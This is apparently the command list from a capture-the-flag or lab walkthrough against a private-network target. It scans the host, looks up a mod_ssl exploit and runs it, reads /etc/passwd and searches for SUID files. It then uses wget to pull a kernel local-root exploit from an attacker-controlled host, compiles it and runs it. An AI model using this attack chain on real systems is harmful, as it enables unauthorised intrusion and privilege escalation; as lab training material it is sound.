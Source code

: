 nmap -p- 192.168.20.139

nmap -sV -sC -p 22,80,111,139,443,1024 192.168.20.139

nikto -h 192.168.20.139

gobuster -u 192.168.20.139 -w /usr/share/wordlists/dirb/common.txt

gobuster -k -u https://192.168.20.139 -w /usr/share/wordlists/dirb/common.txt

searchsploit mod\_ssl 2.8.7

searchsploit -p 764

gcc 764.c -o exploit -lcrypto

./exploit | grep &quot;RedHat&quot; | grep &quot;1.3.20&quot;

./exploit 0x6b 192.168.20.139 80

uname -a

cat /etc/\*-release

cat /etc/passwd | grep bash

PATH=&quot;/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games&quot;

find / -perm -u=s -type f 2\&gt;/dev/null

gcc

searchsploit Kernel 2.4. red hat

service apache2 start

searchsploit -p 3

cp /usr/share/exploitdb/exploits/linux/local/3.c .

wget [http://192.168.20.7/3.c](http://192.168.20.7/3.c)

gcc 3.c -o exp

./exp

whoami


